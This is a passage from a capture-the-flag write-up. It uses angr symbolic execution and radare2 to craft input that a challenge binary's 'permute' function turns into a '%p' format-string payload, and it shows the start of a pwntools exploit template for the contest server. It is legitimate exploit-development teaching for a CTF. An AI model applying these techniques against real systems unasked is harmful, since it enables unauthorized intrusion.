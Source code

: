```py
                angr.options.ZERO_FILL_UNCONSTRAINED_MEMORY,
                angr.options.ZERO_FILL_UNCONSTRAINED_REGISTERS,
            }))

s.memory.store(payload_addr, payload)

sim = p.factory.simgr(s)

sim.explore(find=ret)

fmt = "%p"

if sim.found:
    sol = sim.found[0]

    payload_out = sol.memory.load(
            payload_addr,
            len(fmt) + 1
            )

    sol.add_constraints(payload_out == fmt.encode() + b'\0')

    print(sol.solver.eval(payload, cast_to=bytes))
else:
    print("no solution")

```

We load 0x200 symbolic bytes into memory and pass the address to `permute`.
Once angr has run through the function, we can constrain the result to be our desired payload output and get the solver to output a concrete input string.

r2pipe is used for scripting with radare2 to extract the address of the `ret` instruction within `permute` so we can pass this to angr.

Solving seem to take less than 30 seconds per binary, well within the 60 second time limit.

Once we have the input string, we can send this back to the challenge to exploit the program.

Repeating this 10 times gives us the flag.

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host pwn.utctf.live --port 5002
from pwn import *

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'pwn.utctf.live'
port = int(args.PORT or 5002)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

```